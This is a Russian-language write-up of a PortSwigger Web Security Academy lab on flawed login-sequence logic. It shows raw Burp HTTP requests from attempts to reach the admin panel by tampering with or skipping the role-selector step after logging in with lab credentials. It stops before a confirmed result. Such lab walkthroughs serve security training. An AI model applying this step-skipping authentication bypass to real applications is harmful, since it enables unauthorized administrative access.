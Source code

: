 Эта лабораторная работа делает ошибочные предположения о последовательности событий в процессе входа в систему. Чтобы решить эту лабораторную работу, воспользуйтесь этой уязвимостью, чтобы обойти аутентификацию лаборатории, получить доступ к интерфейсу администратора и удалить пользователя `carlos`.

Вы можете войти в свою учетную запись, используя следующие учетные данные:`wiener:peter`

## Дано

- ошибочные предположения о **последовательности событий** в процессе входа в систему
-  учетные данные:`wiener:peter`
## Задача

- получить доступ к интерфейсу администратора
# Решение

1. Зайдём под учёткой и просмотрим по burp какие этапы мы проходим при входе в систему.
2. /admin - administrator требует
3. Попытки изменить роль через параметр не увенчались успехом, попробуем убрать полностью параметр из запроса
```
POST /role-selector HTTP/2
Host: 0aae00bc04d1b0e081ef7fdf00ff00f1.web-security-academy.net
Cookie: session=LU0o2jNgZfWo2xJ2AjfVxARoveAF2QGB
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: ru-RU,ru;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 47
Origin: https://0aae00bc04d1b0e081ef7fdf00ff00f1.web-security-academy.net
Referer: https://0aae00bc04d1b0e081ef7fdf00ff00f1.web-security-academy.net/role-selector
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Sec-Gpc: 1
Priority: u=0, i
Te: trailers

role=user&csrf=p2oGST3nNoJbRrLXFKaC7sTKIic5t6Rr
```
- Не вышло

4. Тест 2, полностью игнорируем данный запрос а именно заменяем его на /
```
GET / HTTP/2
Host: 0aae00bc04d1b0e081ef7fdf00ff00f1.web-security-academy.net
Cookie: session=fO6HhgnZFxfbTul8MYpRjO37nVi81U0D
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: ru-RU,ru;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
Referer: https://0aae00bc04d1b0e081ef7fdf00ff00f1.web-security-academy.net/role-selector
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Sec-Gpc: 1
Priority: u=0, i
Te: trailers
```

